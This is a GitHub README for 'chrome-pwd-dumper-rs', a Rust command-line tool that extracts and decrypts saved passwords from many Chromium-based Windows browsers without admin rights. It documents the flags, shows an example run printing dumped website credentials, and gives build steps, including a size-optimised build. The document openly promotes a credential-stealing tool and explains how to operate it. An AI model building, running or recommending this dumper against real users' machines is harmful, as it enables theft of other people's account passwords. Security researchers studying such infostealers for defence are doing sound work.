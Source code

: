 # chrome-pwd-dumper-rs
A Windows Chromium based password dumper written in rust

<p align="center">
  <img width="500" height="380" src="./logo.png">
</p>

## Compatibility
- Tested Microsoft Windows 10 Education 64-bit (Build 17763)

You can make a PR if it works on older versions of Windows

## Flags
```
chrome-pwd-dumper 0.3.0
Windows Chromium based password dumper that doesn't require admin rights

USAGE:
    chrome-pwd-dumper.exe [FLAGS] [OPTIONS] [--] [FILE]

FLAGS:
    -h, --help       Prints help information
    -p, --print      Print to stdout
    -V, --version    Prints version information

OPTIONS:
    -b <browsers>...         Select a browser. If left blank, program will try to get all the data available. Browsers
                             selection: `edge`, `chromium`, `7star`, `amigo`, `brave`, `centbrowser`, `chedot`,
                             `chrome_canary`, `coccoc`, `dragon`, `elements-browser`, `epic-privacy-browser`, `chrome`,
                             `kometa`, `orbitum`, `sputnik`, `torch`, `ucozmedia`, `vivaldi`, `atom-mailru` [default: all]
    -f, --format <format>    Available format `json`, `txt` [default: json]

ARGS:
    <FILE>    File name of output file [default: dump]
```

## Example Usage
```
.\chrome-pwd-dumper.exe -b edge -f json -p dump2
[
    Dumper {
        app_info: AppInfo {
            name: "Edge",
            author: "Microsoft",
        },
        accounts: [
            DecryptedAccount {
                website: "https://app.houseparty.com/login",
                username_value: "xXxJohnCena420xXx",
                pwd: "xXxJohnCena420xXx",
            },
            DecryptedAccount {
                website: "https://accounts.google.com/signin/v2/challenge/password/empty",
                username_value: "xXxJohnCena420xXx",
                pwd: "xXxJohnCena420xXx",
            },
        ],
    },
]
Dumped!
```

## How to build
```
// recommended
cargo build --release

// for more optimised builds (If target is not the same as your cpu it might not work!)
cargo rustc --release -- -C target-cpu=native

// Optimise for binary size
// Current config builds with opt-level = 3 for performance
// Change to opt-level = 'z' in Cargo.toml 

```

## License
chrome-pwd-dumper-rs is licensed under MIT license (LICENSE-MIT or http://opensource.org/licenses/MIT)
